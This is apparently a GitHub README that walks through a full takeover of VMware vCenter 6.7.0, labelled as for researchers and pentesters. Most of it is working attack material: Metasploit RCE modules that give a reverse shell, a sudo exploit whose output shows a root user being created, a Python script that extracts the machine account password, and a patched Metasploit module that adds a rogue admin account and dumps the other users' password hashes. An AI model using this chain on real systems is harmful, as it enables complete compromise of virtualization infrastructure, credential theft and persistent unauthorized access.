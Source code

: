 ## Taking over VMware Vcenter 6.7.0

Chain of actions tested on `vCenter Appliance 6.7 Update 3 (6.7.0.40000). Intended for research or pentersters only.

### Geting low priviledge access to vsphere-ui

Since this version is vulnerble to CVE 2021-21972 and CVE-2021-21985 you may use Metasploit's vcenter modules
```
   3  exploit/multi/http/vmware_vcenter_uploadova_rce           2021-02-23       manual     Yes    VMware vCenter Server Unauthenticated OVA File Upload RCE
   4  exploit/linux/http/vmware_vcenter_vsan_health_rce         2021-05-25       excellent  Yes    VMware vCenter Server Virtual SAN Health Check Plugin RCE
```
to get low priviledge access (reverse shell) to the vsphere-ui user. For this version of vcenter the `vmware_vcenter_vsan_health_rce` seems to be more reliable, 
alhough be patient, it usually succeeds in about 70% of attemtps only. If you don't get the reverse shell on the first attempt, just repeat the exploit:

![msf_vmware_vcenter_vsan_health_rce](msf_vmware_vcenter_vsan_health_rce.png)

### Escalating priviledges via CVE-2021-3156 (Sudo Baron Samedit)

Vcenter 6.7.0 vsphere appliance runs on Photon OS Linux 1.0 with a sudo 1.8.20p2 vulnerable to CVE-2021-3156

```bash
# cat /etc/photon-release
VMware Photon Linux 1.0
PHOTON_BUILD_NUMBER=62c543d

# sudo --version
Sudo version 1.8.20p2
Configure options: --prefix=/usr --bindir=/usr/bin --libexecdir=/usr/lib --docdir=/usr/share/doc/sudo-1.8.20p2 --with-all-insults --with-env-editor --with-pam --with-pam-login  --with-passprompt=[sudo] password for %p
```
Exploit https://github.com/worawit/CVE-2021-3156/blob/main/exploit_userspec.py works out of the box. At the end of the exploit you get a `gg` user created with password `gg` and UID=0:

```bash
# python ./exploit_userspec.py
... snip ....
to skip finding offsets next time no this machine, run:
exploit_userspec.py 0xd90 -1 0x1f0 0x0
gg:$5$a$gemgwVPxLx/tdtByhncd4joKlMRYQ3IVwdoBXPACCL2:0:0:gg:/root:/bin/bash
success at 8303
```

At this point you may use `ssh gg@your-vcenter` to logon to vsphere appliance as a root.

### Escalation priviledges via CVE-2021-xxxxx (not yet published)

To be updated once disclosed by VMWare ...

### Geting credentials to vcenter

Logged as root use the below script to get the password for machine account from vmdir's LDAP directory for `vsphere.local` domain:
```python
#!/usr/bin/env python

import sys

sys.path.append('/usr/lib/vmware-vmafd/lib64')

import vmafd

def getMachineAccountCredentials():
    client = vmafd.client('localhost')
    username = client.GetMachineName()
    password = client.GetMachinePassword()
    return (username, password)

if __name__ == "__main__":
    print(getMachineAccountCredentials())
```
Note: it does not work if run by `vsphere-ui` user, it requires root priviledges.

You obtain the user name and password:
```bash
root@10.0.0.1 [ /tmp ]# ./get_creds.py
('10.0.0.1', 'Password123')
```
The full username of the machine account is `cn=10.0.0.1,ou=Domain Controllers,dc=vsphere,dc=local`.

### Creating own admin user on the vcenter

The machine account cannot be used yet to logon to the vcenter, but we can use it for authentication to vsphere.local LDAP server and create our own admin 
account with Metasploit's `auxiliary/admin/ldap/vmware_vcenter_vmdir_auth_bypass` module. Leveraging some aspects of [CVE-2020-3952](https://www.vmware.com/security/advisories/VMSA-2020-0006.html), despite the fact the Vcenter is not vulnerable to the CVE-2020-3952 itself. 

At the time of writing this article the Metasploit module needs to be adjusted with a pull request https://github.com/rapid7/metasploit-framework/pull/15656
In the mean time you may adjust the below function in `vmware_vcenter_vmdir_auth_bypass` yourself:

```ruby
  def auth_bypass(ldap)
    unless datastore['BIND_DN']
      ldap.bind(
        method: :simple,
        username: Rex::Text.rand_text_alphanumeric(8..42),
        password: Rex::Text.rand_text_alphanumeric(8..42)
      )
    end
  end
```
After that modification an authenticated `vmware_vcenter_vmdir_auth_bypass` will work.


Fill in your options and execute:
```
msf6 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > options

Module options (auxiliary/admin/ldap/vmware_vcenter_vmdir_auth_bypass):

   Name      Current Setting                                        Required  Description
   ----      ---------------                                        --------  -----------
   BASE_DN   dc=vsphere,dc=local                                    no        LDAP base DN if you already have it
   BIND_DN   cn=10.0.0.1,ou=Domain Controllers,dc=vsphere,dc=local  no        The username to authenticate to LDAP server
   BIND_PW   Password123                                            no        Password for the BIND_DN
   PASSWORD  NewPassword123#                                        no        Password of admin user to add
   RHOSTS    10.0.0.1                                               yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     636                                                    yes       The target port
   SSL       true                                                   no        Enable SSL on the LDAP connection
   USERNAME  Myadmin                                                no        Username of admin user to add
```

You should get your new admin user `Myadmin@vsphere.local` created with password `NewPassword123#`. As a bonus you get password hashes of all the other vcenter users from vsphere.local domain.

Now go to the https://10.0.0.1/ui and logon to the vcenter.
